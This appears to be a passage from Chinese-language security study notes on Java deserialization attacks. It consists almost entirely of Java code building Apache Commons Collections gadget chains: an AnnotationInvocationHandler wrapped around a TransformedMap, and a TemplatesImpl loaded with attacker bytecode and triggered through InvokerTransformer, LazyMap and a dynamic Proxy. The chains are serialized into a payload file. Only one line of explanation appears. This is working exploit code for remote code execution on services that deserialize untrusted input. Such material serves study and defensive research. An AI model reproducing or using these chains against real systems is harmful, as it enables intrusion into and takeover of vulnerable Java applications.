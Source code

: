 
        Class aClass = forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annotationInvocationHandlerConstructor = aClass.getDeclaredConstructor(Class.class, Map.class);
        annotationInvocationHandlerConstructor.setAccessible(true);
        Object o = annotationInvocationHandlerConstructor.newInstance(Target.class, transformedMap);


        serialize(o);
        unserialize("ser.bin");
    }

LazyMap也同样的道理


<img width="2559" height="1539" alt="image" src="https://github.com/user-attachments/assets/4bf12f3b-acb0-4f8a-952d-117d5cc6ef75" />

        TemplatesImpl templates = new TemplatesImpl();
        Class TemplateClass = templates.getClass();
        Field name = TemplateClass.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "123");


        Field bytecodes = TemplateClass.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        byte[] code = Files.readAllBytes(Paths.get("D:\\code-audit\\CC3\\target\\classes\\Test.class"));
        byte[][] codes = {code};
        bytecodes.set(templates,codes);

        Field tfactory = TemplateClass.getDeclaredField("_tfactory");
        tfactory.setAccessible(true);
        tfactory.set(templates,new TransformerFactoryImpl());

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(templates),
                new InvokerTransformer("newTransformer", null,null),

        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);


        HashMap<Object, Object> map = new HashMap();
        Map<Object, Object> lazyMap = LazyMap.decorate(map, chainedTransformer);


        Class aClass = forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annotationInvocationHandlerConstructor = aClass.getDeclaredConstructor(Class.class, Map.class);
        annotationInvocationHandlerConstructor.setAccessible(true);
        InvocationHandler o = (InvocationHandler) annotationInvocationHandlerConstructor.newInstance(Target.class, lazyMap);


        Map proxyMap = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), new Class[]{Map.class}, o);


        Object o1 = annotationInvocationHandlerConstructor.newInstance(Override.class, proxyMap);
